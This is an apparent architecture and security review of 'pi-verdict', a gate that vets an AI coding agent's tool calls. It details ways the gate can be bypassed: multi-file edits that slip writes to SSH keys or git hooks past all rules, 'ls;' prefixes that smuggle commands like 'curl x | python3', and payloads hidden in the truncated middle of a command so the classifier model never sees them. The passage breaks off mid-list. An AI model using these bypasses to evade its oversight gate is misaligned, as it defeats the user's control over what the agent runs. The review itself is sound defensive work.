


# pi-verdict architecture review (2026-10-04)

> **Provenance.** Produced by an external reviewer on 2026-10-04 against HEAD `6136aa0`
> (`v0.16.0-fork.6`) and preserved here so its numbered findings (F1–F14) stay citable from tracked
> documents (ADR-0007/0008, `docs/plans/probe-apparatus.md`). Findings are historical evidence at that
> revision, not current behaviour: verify against the tree before relying on any line number or claim.
>
> **Note on sources.** This review cites a session handover (`testing-handover.md`), an ephemeral
> scratch document written by the consumer session and deleted since; its defect ledger is now the
> `docs/plans/probe-apparatus.md` case table. Those citations are kept as historical references to the
> reviewed artifact.

**Mode:** Architecture Audit, with a technical-design pass over the security boundary.

**Scope:** `extensions/pi-verdict.ts` (4448 lines), `extensions/jev-adapter.ts`, `tests/`, `docs/` (ADR-0001 to
ADR-0006, `security-principles.md`, `host-contract.md`, `verification-2026-10-04.md`), `README.md`, `CHANGELOG.md`,
`AGENTS.md`, `CONTEXT.md`, `.github/workflows/`, and the omp 18.5.1 host source installed under
`~/.local/share/mise/installs/npm-oh-my-pi-pi-coding-agent/18.5.1/` (read to check the host contract). The consumer
policy `~/src/agent-setup/agents/omp/pi-verdict.json` was read for its `allow` and `tools` keys only.

**Out of scope (not re-reported):** the items owned by the `docs/plans/probe-apparatus.md` review: the git-push
tokeniser escapes, the kernel path walker, dangling symlinks, XDG roots, the `denyPaths` kernel tier, the probe
harness, provenance and coverage tooling. They are referenced below only where a structural root cause explains them.

**Health score:** 35/100 (two Critical, six Important, five Suggested; Informational not scored).

**Date:** 2026-10-04, reviewed at `6136aa0` (`v0.16.0-fork.6`). Evidence came from repository search, ranged reads,
and the host source.

**Verdict: `NEEDS_REVISION`.** The pipeline's shape is sound and worth keeping, but two paths return a deterministic
`allow` that skips every layer below self-protection: an omp `edit` call whose event input carries `paths` instead of
`path`, and a user `allow` regex that matches the first word of a compound command.

Both Critical findings share one root cause, and it is the main structural lesson of this review. The gate decides
from a hand-kept model of the host's tool inputs and of shell syntax. Where that model is incomplete, the code falls
through to a default, and in these two places the default is `allow`. The fix generalizes what layer 0 already does
right since the R3 amendment: key on the inputs the host actually sends, and treat "I do not understand this input" as
a reason for scrutiny, never as permission.

## Module dependency graph

The file is one module physically, so the nodes below are its logical sections, identified by their banner comments
and top-level declarations. Edges point from the dependent section to its dependency.

There are no circular dependencies, and the direction is consistent: presentation and wiring depend on the pipeline,
the pipeline depends on the rule and classifier layers, and those depend on the foundations. The one structural
weakness the graph shows is the `ToolKind` node. Four sections (self-protection, user rules, the path floor, and
`denyPaths`) depend on a single hand-maintained name switch that encodes pi's tool names and input fields, while the
real host is omp, whose tools and input shapes differ.

## How the gate's view diverges from what the host executes

## Findings

Severity follows the agent contract: Critical, Important (the "Warning" tier), Suggested, and Informational.
Each finding is marked CONFIRMED (verified in code) or PLAUSIBLE (inferred, with the unverified step named).

### F1 (Critical, CONFIRMED in pi-verdict; host execution PLAUSIBLE): an omp `edit` without `path` is a silent deterministic allow

**Domain Model Distortion: the gate models pi's tool schema, the host is omp.**

*Problem.* omp 18.5.1 defaults `edit.mode` to `hashline` (`src/edit/settings.ts:37-40`). Its hashline prompt tells the
model to "Repeat the header per file" (`src/edit/hashline-compact.md:10`), so one call can edit several files. omp
derives gate-facing fields from the patch headers: one header yields `{ input, path, paths }`, several yield
`{ input, paths }` with no `path`, and an `apply_patch`-style input with no hashline headers yields no path field at
all (`src/extensibility/tool-event-input.ts:70-90`). pi-verdict reads only `input.path`. For `edit` it calls
`classifyPath(String(input.path ?? ""), cwd, true, …)` (`extensions/pi-verdict.ts:1782-1784`), and
`path.resolve(cwd, "")` is the cwd itself, which passes the in-project write allowance (`:1237-1239`). User rules see
`null` (`userRuleTarget`, `:1277-1279`), `denyPaths` sees no candidates (`denyPathCandidates`, `:1446-1449`), and a
search for `\bpaths\b` finds no read of the field anywhere in the extension. The classifier is never called.

*Consequence.* Adding a second file header to an edit turns any write into a rule `allow`, including a write to `~/.bashrc`
(S2, normally classifier), `.git/hooks/pre-commit` (S3, normally deny), `~/.ssh/authorized_keys` (S0/S1, normally deny),
or any declared `denyPaths` entry. Layer 0 still holds, because `selfProtectCheck` scans every input string
(`:1690-1696`, `:1743-1752`). This contradicts ADR-0002's stated invariant that an incomplete tool enumeration
"degrades to classifier scrutiny — never to a silent allow" (`docs/adr/0002-deny-paths-deterministic-ask.md:150-154`).
The tests could not catch it because they model invented tool shapes: `ast_edit { path, edits }` (`tests/pi-verdict.test.ts:3134`,
`docs/verification-2026-10-04.md:103-106`), whereas omp's real `ast_edit` takes `paths` (`src/tools/ast-edit.ts:154-156`).
The unverified step is whether omp then writes outside the cwd without its own approval prompt; that depends on omp's
`resolveApproval` mode in the consumer's configuration.

*Proposed change.* Replace `toolKind` and the scattered `input.path` and `input.command` reads with one host
tool-shape adapter. Given `(toolName, input)`, it returns a typed `ToolAccess`:
`{ kind, reads: string[], writes: string[], command?: string, code?: string, opaque: boolean }`. It knows both hosts'
shapes: pi's `path`, omp's `path` plus `paths`, the hashline headers (parse them yourself rather than trusting the derived
fields), `MV` destinations, `ast_edit.paths`, `glob`, and `eval.code`. A known write tool with no extractable target
yields `opaque: true`, and the pipeline maps `opaque` to gray (classifier) or, for writes, to a deterministic ask. The
in-project allowance may only fire when every write target is present and inside the cwd. Every consumer (layer 0,
floor, user rules, `denyPaths`, the `.omp` gate, transcript lines) reads `ToolAccess` instead of re-deriving it.

*Benefit.* This closes the silent-allow class rather than one spelling. It makes R3's input-keyed discipline the rule for
every layer, and it gives one place to update when omp adds a tool.

*Cost and risk.* Moderate. The floor's per-tool nuance (`write`/`edit` versus `read`) moves into the adapter, and every
existing test that hand-builds an input shape needs a real-schema fixture. The main risk is a false-positive ask on
multi-file edits, which is the safe direction.

*Size:* M.

### F2 (Critical, CONFIRMED): user `allow` regexes over raw command text admit compound commands

**Accidental Complexity: an allowlist is applied to text, not to the command it names.**

*Problem.* User `allow` regexes test the full raw command string (`userRuleTarget`, `:1276`; allow loop `:1819-1821`),
and an allow match ends adjudication before the classifier. The first-run template ships `allow: ["^ls\\b"]` (`:773`),
and the deployed consumer policy carries `^ls(\s|$)`, `^pwd$` and `^git (status|log|diff|show|branch|remote -v)(\s|$)`
(`~/src/agent-setup/agents/omp/pi-verdict.json:2`). `ls\nbash /tmp/evil.sh`, `ls; python3 -c '…'` and
`git status && curl x | python3` match an allow rule. The floor catches only its own patterns (its remote-exec rule
covers `| sh`, not `| python3`, `:134`), so these commands run with no model judgment at all. The same layer also
re-admits the security audit's V7, `git log --format=… --output=<path>` writing attacker-shaped content to an arbitrary
path (`research/rule-layer-security-audit.md:99-106`). The regression suite that claims "all payloads must NOT be
rule-allowed" runs every payload against an empty policy (`session({})`, `tests/pi-verdict.test.ts:635-653`), so it
pins the property only for a configuration nobody deploys.

*Consequence.* A prompt-injected agent gets unreviewed arbitrary execution by prefixing any command with `ls;`. This is
audit finding V3, which was "fixed" by deleting the built-in allowlist in 0.2.0, but the identical mechanism lives on in
the user layer and in the shipped template.

*Proposed change.* Define allow semantics as "this regex admits one simple command", and enforce it. An allow rule may
fire only when a shell view of the command reports one segment, no operators (`;`, `&`, `|`, newline), no command or
process substitution, no backticks, no redirection other than to `/dev/null`, no here-document, no line continuation,
and no re-parser in command position (`eval`, `env -S`, `sh -c`, `xargs`, `find -exec`). Otherwise the allow rule is
skipped and the call goes to the classifier. Add the audit payloads under the starter template and under a copy of
the consumer's `allow` list to the regression suite. Document the change as BREAKING in `CHANGELOG.md` and record it in
an ADR, because it narrows what an existing user rule admits.

*Benefit.* The user allowlist becomes sound for the cases it can describe, without a parser dependency, because the
check only needs to recognize "not simple", which is far easier than parsing fully.

*Cost and risk.* Small. Commands that were silently allowed now cost one classifier call. No allow-to-deny regressions
are possible.

*Size:* S.

### F3 (Important, CONFIRMED): tools outside pi's eight names skip user deny rules, `denyPaths` and the floor

*Problem.* `toolKind` recognizes `bash`, `powershell`, `read`, `write`, `edit`, `grep`, `find` and `ls` (`:1247-1262`).
omp 18.5.1 also ships `eval` (JavaScript or Python execution, `approval = "exec"`, `src/tools/eval.ts:347-354`), `ast_edit`,
`glob`, `ast_grep`, `computer`, `browser`, `github`, `debug`, `ida`, `vibe_spawn` and others (a search for `readonly name =` over
`src/tools`). For each of these, `userRuleTarget` returns `null`, so the consumer's 54 user `deny` regexes never run.
`denyPathCandidates` returns `[]`, so its 28 `denyPaths` never run, and the S-tier floor never runs. The classifier sees
`eval: {"code":"…"}`, cut to 1000 characters (see F6). The consumer believes layer 3 covers `eval`
(`testing-handover.md:29`), so the deployed coverage model is wrong in the consumer's documentation as well.

*Consequence.* The classifier fails closed, so these tools are not a silent allow. But every deterministic declaration the
user made is inert for exactly the tools that execute code or rewrite files, and a new omp release can add another tool
without anyone noticing.

*Proposed change.* Fold this into F1's adapter. Map `eval.code` to the command channel, so user `deny` regexes and the
floor's danger patterns see it, and map `ast_edit.paths` and `glob` paths to writes and reads. At `session_start`, call
`pi.getAllTools()`, which both hosts expose (omp `src/extensibility/extensions/types.ts:1612`; pi
`dist/core/extensions/types.d.ts:980`). Notify once for every active tool that neither the adapter nor the user's
`tools` list covers, and record the list in the audit log. Pin each mapped tool with a fixture copied from the host's
schema, not invented.

*Benefit.* The user's declarations apply to the tools that matter most, and host drift becomes a visible warning
instead of a silent coverage loss.

*Cost and risk.* Small on top of F1. Mapping `eval.code` through the bash danger regexes will over-match some
JavaScript, which is the safe direction.

*Size:* S (after F1).

### F4 (Important, CONFIRMED): the floor composes precision and recall in the wrong order

**Change Propagation: every tokeniser change can silently remove coverage the raw regex had.**

*Problem.* fork.6 moved `git-push-force` from a raw-text regex to a word-level check, `gitPushForce` over `shellWords`
(`:129`, `:160-294`). The tokeniser now sits in the *detection* path. Wherever it models the shell less faithfully than
the regex over-approximated it, a deny becomes a classifier call. The handover measured four such regressions
("old denied, new classifier", `testing-handover.md:234-243`) — a backtick substitution, `bash -o pipefail -c '…'`,
`-f>/dev/null`, and the `+` refspec form (all four now carry probe cases and, since ADR-0007, floor regressions) —
and the remaining items in that list are the out-of-scope
escapes. The same pattern recurs in five independent views of one command string: the danger regexes (raw text),
`shellWords` (git push only), `bashPathTokens` (`denyPaths`), `OMP_DIR_IN_COMMAND` (the `.omp` gate), and the substring
signatures plus a `cd` regex (self-protection, `:1604-1606`, `:1701-1711`). None of them can report that it did not
understand the input.

*Consequence.* The escape stream is structural, not a run of bugs. Each new tokeniser case closes one spelling and can
open another, and the coverage of the floor is not monotone across releases.

*Proposed change.* Answering the brief's question directly: keep a raw-text floor, add a sound-parse exemption, and do
not adopt a bash AST library now. Concretely:

1. Build one `ShellView` module that tokenises once and returns segments plus an explicit `sound` flag. `sound` is false
   on anything it does not model: `eval`, `env -S`, `sh -c` with positional operands, `$(` inside double quotes,
   backticks, here-documents, process substitution, backslash-newline, variable expansion in command position, an
   unterminated quote, and recursion depth exhaustion.
2. Make every floor rule monotone. A raw-text tripwire decides the hit (high recall, as before fork.6), and a sound
   parse may only *clear* a hit, as in the commit-message case, never be the sole path to one. The handover's four
   regressions then become kept false positives, the safe direction.
3. Reuse `ShellView` for F2's simple-command check, for `denyPaths` extraction, and for the self-protection `cd` targets.

An AST library is the wrong next step for three reasons. Soundness needs the parser to know when it does not
understand an input, which a conservative tokeniser can report. A full AST still cannot resolve runtime-built commands
such as `eval "$x"`, so it adds precision, not soundness. The project measured tree-sitter-bash absorbing zero gray
calls (ADR-0002, `docs/adr/0002-deny-paths-deterministic-ask.md:16-19`), and the zero-runtime-dependency,
ship-TypeScript-as-is packaging makes a WebAssembly parser a real distribution cost. Revisit the decision if tripwire
false positives become the dominant user complaint.

*Benefit.* The floor never gets weaker than the regex it replaced, the out-of-scope escapes collapse into one
unsoundness check, and five lexers become one.

*Cost and risk.* Moderate. Some commands denied at fork.6 stay denied only because the tripwire keeps them. Coordinate
with the probe-apparatus plan so its cases assert `source` and rule id, not the verdict alone.

*Size:* M.

### F5 (Important, CONFIRMED): a trusted project can still widen the gate, and the trust prompt says it cannot

*Problem.* `PROJECT_OVERRIDABLE_KEYS` includes `subagentGate`, `subagentAskTimeoutMs`, `classifierFallbackMode`,
`gateOmpDir` and `footer` (`:812-825`), and the merge copies them verbatim through `default: merged[k] = v`
(`:976-977`). The trust dialog tells the user that the project "cannot widen the gate" (`:3845`), and ADR-0006's R7
amendment says overrides "narrow only" (`docs/adr/0006-fork-posture-and-override-hardening.md:96-110`). The R7 test
covers `allow`, `tools`, `deny`, `denyPaths` and `builtinDenyFloor`, and none of these five keys
(`tests/pi-verdict.test.ts:2993-3027`).

*Consequence.* A cloned repository that ships `.omp/pi-verdict.json` containing `{"subagentGate":"off","footer":"off"}`
earns trust through an accurate-looking prompt. It then ungates every subagent tool call (`:4327`) and hides the
`subagent off` footer badge that ADR-0006 added to flag exactly that state. `subagentAskTimeoutMs: 1` hands every
subagent ask to the second model, `classifierFallbackMode: "enforce"` lets that model allow, and `gateOmpDir: false`
removes a user-chosen ask.

*Proposed change.* Give each overridable key a declared narrowing direction and enforce it in the merge:
`subagentGate` may only move `off → normal`, `auto → normal`, or `off → auto`; `subagentAskTimeoutMs` may only increase;
`classifierFallbackMode` may only become `shadow`; `gateOmpDir` may only become `true`. Make `footer` user-only, since
it controls the gate's own risk display. Express this as a table of `(key, merge function)` so a new key cannot be
added without choosing a direction, and extend the R7 test to all keys.

*Benefit.* The trust prompt becomes true, and the allowlist-over-denylist reasoning of ADR-0006 extends to values.

*Cost and risk.* Small; no user-only behavior changes.

*Size:* S.

### F6 (Important, CONFIRMED): the classifier judges a mid-truncated action and never sees write content

*Problem.* The action under review shares the transcript's sanitizer, which keeps the first 600 and last 400 characters
and drops the middle (`MAX_ENTRY_CHARS`, `sanitize`, `:1861-1871`; the action line is built with the same function,
`:2686`, `:1883-1887`). For any tool with a `path` field, the line is only the path, so a `write` or `edit` that reaches
the gray zone is judged with no content (`:1885`). The floor separately slices bash commands to 8192 characters
(`:316`). A payload placed between offset 600 and the last 400 characters of a command longer than 8192 characters is
therefore invisible to both the floor and the classifier. The system prompt does not tell the classifier that
`…[truncated]…` means it is not seeing the whole action (`:1830-1842`).

*Consequence.* The agent controls the action text, so it controls what the judge sees. That undermines security
principle 3, "the classifier judges semantics", and it makes "write outside project" verdicts content-blind.

*Proposed change.* Never elide the action under review. Send it whole up to a separate, larger cap, such as 16 KB. Above
the cap, return a deterministic ask with the reason "action too large to adjudicate", because a deny would be unfair to
large legitimate heredocs. For `write` and `edit`, include a bounded content excerpt in the action block, and state in
the system prompt that any truncation marker requires an `ask`. Keep the 1000-character cap for transcript history
only. Make the floor's cap symmetric: past 8192 characters, a command with no floor hit in the scanned prefix is gray
with a "floor incomplete" reason that the classifier sees.

*Benefit.* The judge sees what will execute.

*Cost and risk.* Higher token cost on large calls, and the consumer's typed-decision backend (jev) may have its own input
limit, which is unverified.

*Size:* S.

### F7 (Important, CONFIRMED): protected-path plaintext leaves the machine through the transcript

*Problem.* ADR-0002 promises "No path plaintext, ever" in the classifier prompt and notes that the prompt "leaves the
machine bound for the model provider" (`docs/adr/0002-deny-paths-deterministic-ask.md:21-23`, `:54-59`). The deterministic
ask keeps the *current* call away from the model, but `collectTranscriptParts` adds every earlier tool call on the branch
to later prompts with no filter (`:1897-1919`), and up to ten of them per call (`:1860`). A protected `read` that the
user approved is sent to the classifier provider (OpenRouter, for the consumer's jev backend) on each of the next calls
in the window.

*Consequence.* The privacy guarantee that justified the existence-hint design does not hold in the most common sequence:
the user approves a protected access, and the agent keeps working.

*Proposed change.* Redact before egress. For each transcript tool line, run the same `ToolAccess` extraction and
`denyPaths` matcher and replace each matching token with a fixed `<protected-path>` marker. A fixed marker leaks
nothing, unlike the masked-prefix option ADR-0002 rejected. Pin the behavior with a test that approves a protected read
and inspects the next classifier prompt.

*Size:* S (after F1).

### F8 (Important, CONFIRMED): one syntax error in the policy drops every user denial

*Problem.* A JSON parse failure of `pi-verdict.json` returns `EMPTY_RULES` (`:896-907`), and an unexpected load failure
does the same (`:1078-1087`). The floor stays on, but all user `deny` regexes and `denyPaths` disappear, and the only
signal is a notification (`reportLoadWarnings`, `:3821-3829`). Headless sessions (`omp -p`, subagents) have no UI for it.

*Consequence.* For the consumer this means its 54 deny regexes and 28 protected paths are gone until the next session,
silently in headless runs. The "never disable the extension" principle is right, but empty rules are not the
conservative reading of a broken policy.

*Proposed change.* Add a `policyDegraded` state. While it is set, the classifier's `allow` becomes `ask` (headless: deny),
user `allow` and `tools` exemptions are suspended, and the footer and every block reason name the state. Optionally keep
a last-known-good copy of the parsed policy in memory for the life of the process and prefer it. Record the choice in an
ADR, because it changes the fail direction for configuration errors.

*Size:* S.

### F9 (Suggested, CONFIRMED by constants): internal timeouts exceed the host's handler budget

*Problem.* One classification can spend 25 s per attempt over two attempts, plus a temperature retry
(`CLASSIFIER_TIMEOUT_MS`, `:1944`; `classifyWithModel`, `:2185-2207`; `callClassifierOnce`, `:2157-2161`). The fallback
then adds 15 s per attempt (`:1945`). omp bounds each `tool_call` handler to 30 s by default
(`src/extensibility/extensions/runner.ts:1799-1800`) and pauses that budget only during UI dialogs (`createHandlerContext`,
`:267-279`). A slow first attempt therefore ends in the host's own block, "Extension … timed out", before the retry tier,
the fallback cascade (ADR-0004) or the audit append can run. The direction is still fail-closed, but the cascade design is
unreachable on the path it exists for.

*Proposed change.* Give `adjudicate` one end-to-end deadline, configurable and defaulting below the host budget, such as
27 s. Split it across attempts and the fallback, and have the cascade start when the remaining budget allows it. Keep
the existing `subagentAskTimeoutMs` hint, and add the root-session case to `docs/configuration.md`.

*Size:* S.

### F10 (Suggested, CONFIRMED): path normalization is re-derived per layer instead of resolved once

*Problem.* Each layer builds its own forms: `classifyPath` uses rebuilt and kernel forms (`:1211-1216`); the
self-protection checks use rebuilt and kernel forms with their own `expandHome` (`:1647-1673`); `denyPathForms` uses the
base tier and also expands `$HOME` (`:1424-1429`); `userRuleTarget` uses the lexical form only (`:1280`); `kernelForms`
expands `~` by string concatenation (`:382`); and `bashDirectoryTargets` expands `$HOME` and `$PI_CODING_AGENT_DIR`
(`:1707`). `toRuleForm` and `fold` apply in some comparisons and not others. The out-of-scope walker and dangling-link
defects each needed the same fix in several places for this reason.

*Proposed change.* Add one `resolveTarget(raw, cwd)` that returns
`{ raw, lexical, real?, rebuilt[], kernel[] }` once per candidate per call, with a single home and variable expansion.
Each consumer names the tiers it uses (`forms(target, ["lexical", "real"])`), so ADR-0002's base-tier choice for
`denyPaths` becomes an explicit, one-line, test-pinned parameter rather than an implicit choice of helper. This also
removes repeated `realpathSync` calls on the hot path.

*Size:* M.

### F11 (Suggested, CONFIRMED): the 4448-line file has clean logical seams but no physical ones

*Problem.* The banners already describe a sensible decomposition, and `adjudicate` is UI-free with injected dependencies.
But one file mixes eleven concerns: shell lexing, path canonicalization, configuration and trust, the floor,
self-protection, `denyPaths`, the classifier transport, the cascade, the dialog with mouse handling, the footer, and the
wiring. It also holds module-level state that tests cannot reach: `HOME_RULE_ROOTS` computed at import (`:1109-1120`),
`CASE_INSENSITIVE_FS` (`:408`), `rootUi` and `dialogTail` (`:3527-3530`), and `TEMPERATURE_REJECTED_MODELS` (`:1956`).
The test file mirrors it at 4263 lines. `AGENTS.md` still says "~2600 lines".

*Packaging constraint, verified.* pi loads every `.ts` or `.js` file directly inside `extensions/` as an extension, and
loads a subdirectory only through its `index.ts` (`node_modules/@earendil-works/pi-coding-agent/dist/core/extensions/loader.js:528-589`).
Splitting into siblings such as `extensions/shell.ts` would make the host try to load each one. The workable layout is
`extensions/pi-verdict/index.ts` plus sibling modules, or a `lib/` directory outside `extensions/`. Either way, the
`files` whitelist in `package.json` must change, and so must the consumer's single-file sha256 provenance check
(`testing-handover.md:82-103`). Whether omp's plugin loader follows the same subdirectory rule is unverified; the
smoke test in `AGENTS.md` settles it.

*Proposed change.* Split incrementally, and only along the seams F1, F4 and F10 create: `host/tool-access.ts`,
`shell/view.ts`, `paths/resolve.ts`, then `config/`, `classifier/`, `ui/`, and a thin `index.ts`. Move module-level
state into `SessionState` or an injected `Platform` object (`home`, `caseInsensitive`, `realpath`) so tests can vary it.
Replace the single-file provenance hash with a manifest hash over the `files` list (F12).

*Cost and risk.* Large in total, but each extraction is mechanical and test-covered. Do not split for its own sake
before F1, F2 and F4 land.

*Size:* L (in M-sized steps).

### F12 (Suggested, CONFIRMED): release and supply-chain hygiene lag the security role

*Problem.* `publish.yml` still says it publishes `@frapetti-dev/pi-verdict` and configures that scope
(`.github/workflows/publish.yml:2`, `:70`), while the package is `@jonatsu/pi-verdict` (`package.json:2`). Third-party
actions are pinned by major tag (`actions/checkout@v4`, `oven-sh/setup-bun@v2`, `jdx/mise-action@v2`) and Bun is
`latest` in both workflows. The consumer runs the extension under omp's bundled Bun, not CI's. The consumer installs
from a git spec and verifies a sha256 of one file, which is sound for one file but becomes incomplete after F11.

*Proposed change.* Pin actions by commit SHA and Bun by version, matching the host's runtime where practical. Fix or
delete `publish.yml`, since the deployment path is the git spec. Add a `provenance` script that hashes the sorted `files`
list, and add a CI check that the tag equals the `package.json` version (the handover's item 7). The probe-apparatus
review owns the provenance tooling itself; this finding covers only the workflow drift.

*Size:* S.

### F13 (Suggested, CONFIRMED): agent-facing documentation contradicts the code

*Problem.* `AGENTS.md` is the instruction file every agent session reads, and it is stale on load-bearing points. It
says `gateOmpDir` defaults on (the code defaults it off, `:526`), that `classifierFallbackMode` defaults to `shadow`
(`enforce`, `:536`), that a shadow cache exists (removed by ADR-0006), and that the self-protection layer was removed
(restored by ADR-0005). It also says no lint script or Biome config exists and tells agents not to add one, although both
exist (`package.json:51-52`, `biome.json`). It names the package `@frapetti-dev/pi-verdict`. ADR-0002's 2026-09-25
amendment says the self-protection layer and the verdicts read-deny are gone (`:172-185`), and ADR-0005 reversed that
without amending ADR-0002. `CONTEXT.md`'s "dual-form matching" entry names two tiers, while the code has three since
`kernelForms`.

*Consequence.* In an agent-maintained repository, stale invariants in `AGENTS.md` steer the next change toward
reintroducing removed behavior.

*Proposed change.* Rewrite the stale passages, add an ADR-0002 amendment pointing at ADR-0005, and add the kernel tier to
`CONTEXT.md`. Consider a short CI check that greps `AGENTS.md` for the defaults in `EMPTY_RULES`.

*Size:* S.

### F14 (Informational, CONFIRMED): the consumer exempts tools the repository classifies as unsafe

The repository's own rationale for the starter `tools` list excludes `retain`, `learn` and `memory_edit` because they
"persist content into future prompts" (`:761-765`). The deployed consumer policy exempts `learn`, `memory_edit` and
`retain` from the classifier (`~/src/agent-setup/agents/omp/pi-verdict.json:94`), which opens an unreviewed
memory-poisoning channel. That choice belongs to the user. A cheap mitigation on this side is a policy lint at
`session_start` that warns when `tools` names a tool the adapter (F1) classifies as side-effecting.

## Testability seam assessment

`adjudicate` has the right seam: every host capability arrives through `AdjudicateEnv`, and the model is a stub. The
missing seam is at the host-schema boundary. Tests and the verification record hand-build tool inputs from memory rather
than from the host's schema, which is how F1 survived. Add contract fixtures generated from, or copied with a version
stamp from, omp's tool schemas and `normalizeToolEventInput`. Then run the floor, user-rule and `denyPaths` assertions
over those fixtures. The import-time constants named in F11 are a second, smaller seam gap.

## Conway's Law check

The code has one owner, but two agent sessions in two repositories maintain the gate's contract: this repository, and the
consumer `agent-setup`. They have exchanged it as prose, and the handover's post-mortem documents three rounds of
translation loss (`testing-handover.md:362-380`). The coverage claim in F3 ("layer 3 covers eval") is another instance,
because the consumer's model of the gate is wrong in a way this repository could have detected. The probe-apparatus plan
addresses the case-file side and is out of scope here. F3's `getAllTools()` coverage report is the code-side complement.

## What is already right and must survive a refactor

**`adjudicate` is a pure, UI-free function with injected dependencies, and every verdict carries a `source`.** This is
what makes deterministic probing possible: the consumer's harness drives `adjudicate` directly, and the `source` field
is what lets a probe assert the layer rather than the verdict. Any split must keep `adjudicate`'s signature and the
`Verdict.source` and `degraded` semantics.

**The fail direction is consistently closed.** Classifier errors, timeouts, contract violations, a missing model, and
headless asks all end in deny (`:2208-2213`, `:2729-2773`, `:2848-2849`). A demoted deny can never become an automatic
allow (`:2571-2583`). F1 and F2 are failures to *reach* this machinery, not failures of it.

**Layer 0 is keyed on inputs, not tool names (the R3 amendment), and it is snapshot-free.** `selfProtectCheck` scans every
string in the input and treats an unknown tool as a write (`:1676-1754`), which is exactly the posture F1 and F3 ask the
other layers to adopt. The snapshot-free design (ADR-0005) avoids the multi-session false positives that killed ADR-0001.

The ADR and security-principles culture also deserves to survive. The documents state their limitations honestly, the
project-override design chose an allowlist over a denylist for the right reason, and the existence-hint idea is sound;
F7 asks only that the transcript honor it.

## Implementation brief

The tasks are ordered by dependency and risk. Each lands as its own commit with a regression test that fails before the
change and passes after it, run with `bun run typecheck`, `bun test` and `bun run lint`, plus the `CHANGELOG.md` entry
and documentation sync that `AGENTS.md` requires. Assert `source`, and the rule id where one exists, in every new test.
Do not run `git commit` without the user's permission.

1. **F5, project-override narrowing (S, independent).** In `loadUserRules`, replace `default: merged[k] = v` with a
   per-key merge table: `subagentGate` toward `normal`, `subagentAskTimeoutMs` increase-only, `classifierFallbackMode`
   toward `shadow`, `gateOmpDir` toward `true`, and `footer` removed from `PROJECT_OVERRIDABLE_KEYS`. Extend the R7 test
   (`tests/pi-verdict.test.ts:2993`) with `{"subagentGate":"off","footer":"off","subagentAskTimeoutMs":1,"gateOmpDir":false}`.
   Amend ADR-0006.
2. **F2, simple-command allow (S, independent).** Add `isSimpleCommand(command)` beside `shellWords`. It returns false
   on any operator token, newline, `$(`, backtick, `<(` or `>(`, redirection other than to `/dev/null`, `<<`,
   backslash-newline, or a re-parser word (`eval`, `env -S`, a shell name with `-c`, `xargs`, `find … -exec`). Guard the
   user allow loop (`:1819`) with it, so that a non-simple command skips allow rules and falls through to the classifier.
   Add the audit payloads V3 and V7 under the starter allow and under the consumer allow list
   (`^ls(\s|$)`, `^git (status|log|diff|show|branch|remote -v)(\s|$)`), expecting a classifier call. Write an ADR and
   mark the change BREAKING in the changelog.
3. **F1 and F3, host tool-access adapter (M).** Create `toolAccess(toolName, input): ToolAccess` and copy omp 18.5.1's
   `normalizeToolEventInput` behavior into fixtures. Parse hashline headers (`[PATH#TAG]` and legacy `¶PATH`) and `MV`
   destinations from `input.input` yourself, and accept `path`, `paths`, `ast_edit.paths`, `glob`, and `eval.code` as the
   command channel. A write tool with no extracted target is `opaque` and becomes a deterministic ask (headless: deny).
   Route `classifyByRules`, `userRuleTarget`, `denyPathCandidates`, `hitOmpDir` and `selfProtectDirection` through it.
   The first failing test is `edit { input: "[a.ts#1a2b]\n…\n[~/.ssh/authorized_keys#3c4d]\n…" }`, which must not
   return `allow/rule`. Add the `session_start` coverage notice through `pi.getAllTools()`. Write an ADR on the host
   tool contract and update `docs/host-contract.md`.
4. **F7, transcript redaction (S, after 3).** In `collectTranscriptParts`, pass each tool line's `ToolAccess` targets
   through the anchored `denyPaths` matcher and replace hits with `<protected-path>`. The test approves a protected read,
   then checks that the next classifier prompt (`h.calls`) does not contain the path.
5. **F6, action-line integrity (S).** Give the action line its own cap with no elision, make an over-cap action a
   deterministic ask, include a bounded content excerpt for `write` and `edit`, add a truncation clause to
   `CLASSIFIER_SYSTEM`, and make a bash command past the 8192-character floor cap gray with an explicit "floor
   incomplete" reason. Check the jev adapter's input limit before raising caps.
6. **F8, degraded policy mode (S).** On a parse or load failure, set `policyDegraded`. While it is set, classifier
   `allow` becomes `ask`, user `allow` and `tools` are suspended, and the footer and block reasons name the state. Write
   an ADR.
7. **F9, deadline budget (S).** Thread a deadline through `classifyWithModel` and `runConfidenceCascade`, with a default
